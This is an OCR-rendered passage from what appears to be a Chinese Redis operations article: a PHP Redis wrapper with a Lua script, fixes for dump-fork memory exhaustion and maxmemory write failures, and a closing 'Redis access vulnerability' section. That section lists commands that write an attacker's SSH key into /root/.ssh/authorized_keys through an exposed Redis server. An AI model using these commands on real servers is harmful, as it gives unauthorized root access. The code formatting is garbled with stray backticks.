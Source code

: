 ````<?php`/
`*/`
`public` `function` `__construct()`
`{`
`$this``->redis =` `new` `\Redis();`
`$this``->redis->connect(``"127.0.0.1"``, 6379);`
`$this``->redis->select(2);`
`}`
`/**`
`* @param $key`
`* @param $value`
`* @return bool`
`*/`
`public` `function` `set(``$key``,` `$value``)`
`{`
`return` `$this``->redis->set(``$key``,` `$value``);`
`}`
`/**`
`* @param $key`
`* @param $value`
`*/`
`public` `function` `getAndSet(``$key``,` `$value``)`
`{`
`$lua` `= <<<GLOB_MARK`
`local value = redis.call(``'get'``, KEYS[1])`
`redis.call(``'set'``, KEYS[1], ARGV[1])`
`return` `value`
`GLOB_MARK;`
`$result` `=` `$this``->redis->``eval``(``$lua``,` `array``(``$key``,` `$value``), 1);`
`Logger::info(``"eval script result:"` `. var_export(``$result``, true));`
`}`
`/**`
`* @return string`
`*/`
`public` `function` `error()`
`{`
`return` `$this``->redis->getLastError();`
`}`
`}`
```
Dump故障
------
当Redis使用内存大于操作系统剩余内存的2倍时，使用dump持久化机制可能会造成服务器宕机、假死等情况。原因是dump时，Redis会fork一个子进程，根据写实复制原则，如果Redis中的数据会发生修改时，操作系统会把服务进程的内存copy一份给子进程，具体copy多少根据数据修改的覆盖度；这时如果内存不够用，操作系统会使用swap扩展内存，性能急剧下降，如果swap也不够了，则可能发生宕机、假死等情况。

解决方案：设置maxmemory，监控Redis内存使用（Redis info命令），场景允许的情况下开启lru机制。

maxmemory故障
-----------

故障描述：设置了maxmemory，内存用完，客户端无法写入

解决方案：对Redis内存使用进行监控，根据业务场景控制内存使用；如果内存确实不够用了，考虑引入分布式Redis集群方案

redis访问漏洞
---------

这个漏洞的原理非常简单，只需执行以几条命令即可：
```
redis> config` `set` `dbfilename authorized_keys`
redis> config` `set` `dir` `'/root/.ssh'`
redis>` `set` `xxoo` `"\n\n\nyour public ssh key"`
redis> save`
````
